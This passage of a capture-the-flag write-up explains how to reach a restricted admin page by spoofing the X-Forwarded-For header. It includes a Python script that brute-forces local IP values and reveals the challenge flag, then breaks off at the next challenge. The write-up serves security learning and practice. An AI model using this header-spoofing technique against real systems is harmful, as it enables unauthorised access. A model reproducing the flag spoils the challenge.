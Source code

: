 Nice, we found some hidden files! `/admin.html` is pretty interesting but if you navigate to it, you will find that it is just a blank page. So let's take a look at `/readme.txt`:

```
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

It seems that in order for us to access `/admin.html` we need to trick the server into believing that we are coming from a local IP in the `192.168.0.0/24` range.

We can accomplish this by adding the [`X-Forwarded-For`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) HTTP header and setting it to a local IP. However, if we just try an IP such as `192.168.0.1` we still get a blank page from `/admin.html`. So we need to find a specific IP that the server will recognize is on the local network.

I accomplished this by creating a script that would bruteforce all of the IPs:

```python
import requests

url = 'https://cfta-wh01.allyourbases.co/admin.html'

ip = 0

while True:
    print("Trying", f"192.168.0.{ip}")
    r = requests.get(url,headers={"X-Forwarded-For":f"192.168.0.{ip}"})

    if 'flag' in r.text:
        print(r.text)
        break

    ip +=1
```

Running the script we find a valid IP to be `192.168.0.62` and we get the flag

### Flag: iPSpooFinGWiThHopHeaDers91918

----------------------------------------------------------------------------

### Challenge: WH02 
### Category: Web (Hard)

## Description:
#### [500 pts]: Access the site at [https://cfta-wh02.allyourbases.co](https://cfta-wh02.allyourbases.co) and find a way to get the flag.

## Walkthrough:
Navigating to the provided URL, we're presented the following page:
